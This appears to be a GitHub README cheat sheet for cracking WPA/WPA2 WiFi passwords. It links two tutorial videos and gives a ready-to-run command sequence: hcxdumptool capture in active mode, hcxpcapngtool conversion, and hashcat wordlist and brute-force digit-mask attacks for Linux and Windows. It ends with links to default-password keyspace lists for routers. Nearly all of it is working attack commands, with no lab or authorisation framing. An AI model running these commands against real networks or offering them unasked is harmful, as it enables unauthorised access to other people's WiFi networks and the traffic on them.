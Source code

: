 # WiFi-Cracking-with-HashCat
Cat: Security

### "WiFi WPA/WPA2 vs hashcat and hcxdumptool" by David Bombal
https://www.youtube.com/watch?v=Usw0IlGbkC4

### "16 secs to break it! 😱 70% of real world WiFi networks owned!" by David Bombal
https://www.youtube.com/watch?v=ZTIB9Ki9VtY

## COMMANDS

### Stop Network Manager and WPA Supplicant Services
```
sudo systemctl stop NetworkManager && sudo systemctl stop wpa_supplicant
```

### Run hcxdumptool to capture WLAN information
```
sudo hcxdumptool -i [wifi interface] -o dumpfile.pcapng --active_beacon --enable_status=1
```

### Restart Network Manager and WPA Supplicant Services
```
sudo systemctl start wpa_supplicant && sudo systemctl start NetworkManager
```

### Convert PCAPNG file to hash file
```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

### Capture MAC addresses
```
sudo hcxdumptool --do_rcascan -i [wifi interface]
```

### Run Hashcat with a wordlist
```
hashcat -m 22000 hash.hc22000 wordlist.txt
```
### Run Hashcat with Brute Force
?d digits, ?l lower, ?u upper, ?s special, ?a all
```
hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

hashcat -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```
### Linux potfile
```
~/.local/share/hashcat
```

## Windows:
```
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
```
```
hashcat.exe -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```


Usefull repositories for routers with default passwords.

https://github.com/sheimo/Wifi-WPA-Keyspace-List

https://github.com/n0kovo/ssid-keyspace-table

https://github.com/soxrok2212/PSKracker/blob/master/keyspace.md

https://github.com/berzerk0/Probable-Wordlists
